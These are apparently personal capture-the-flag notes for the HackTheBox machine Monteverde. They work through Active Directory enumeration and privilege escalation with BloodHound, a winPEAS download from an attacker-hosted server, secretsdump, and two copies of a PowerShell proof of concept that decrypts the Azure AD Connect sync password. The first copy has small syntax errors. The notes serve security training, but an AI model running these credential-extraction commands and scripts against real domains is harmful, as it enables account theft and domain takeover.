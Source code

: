 
It's time for Bloodhound and Winpeas

Bloodhound
```
bloodhound-python -d MEGABANK.local -u mhope -p '4n0therD4y@n0th3r$' -ns 10.10.10.172 -c all
```

![[Pasted image 20240504002952.png]]

Started the Neo4j console and Run bloodhound


```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240504003704.png]]

Systeminfo
![[Pasted image 20240504013037.png]]

```
USERDOMAIN: MEGABANK
USERDNSDOMAIN: MEGABANK.LOCAL
```

![[Pasted image 20240504014452.png]]

If you recall that we have seen this account user name starting with AAD_ is used for actual sync service.
https://docs.microsoft.com/en-us/azure/active-directory/hybrid/concept-adsync-service-account

![[Pasted image 20240505041831.png]]

![[Pasted image 20240505041255.png]]


AD Sync 
![[Pasted image 20240505041505.png]]
So we see a Microsoft Azure AD Sync Folder 

We can enumerate the service instance using the Registry.
```
Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync
```
![[Pasted image 20240505041916.png]]


```
Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" | Format-list -Property * -Force
```
![[Pasted image 20240505043207.png]]

First i tried running this to know if it working cuz the tools we are going to use will extract the password dump from the AD as it's using DPAPI

```
secretsdump.py MEGABANK.LOCAL/mhope:'4n0therD4y@n0th3r$'@10.10.10.172 -use-vss
```
![[Pasted image 20240505042603.png]]

https://github.com/dirkjanm/adconnectdump
https://blog.xpnsec.com/azuread-connect-for-redteam/
If i recall it correct we have also used another tool written by this fella. (i.e. ldapdomain dump)

Let's try the tool
![[Pasted image 20240505044351.png]]

I don't know how to run the tool as it wants a file that we can decrypt using this tool.
```
/root/HackTheBox/Monterverde/adconnectdump/decrypt.py
```


```
sqlcmd -S MONTEVERDE -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration"
```
![[Pasted image 20240505045617.png]]

```
instance_id: 1852B527-DD4F-4ECF-B541-EFCCBFF29E31
keyset_id: 1
entropy: 194EC2FC-F186-46CF-B44D-071EB61F49CD
```

Changes:
```
$keyset_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
```

Now will save the script adconnect.ps1
```
Function Get-ADConnectPassword{
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"
$keyset_id = 1
$instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
$entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList
"Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM
mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName
Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']"
| select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']"
| select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name =
'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
}
```


```
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```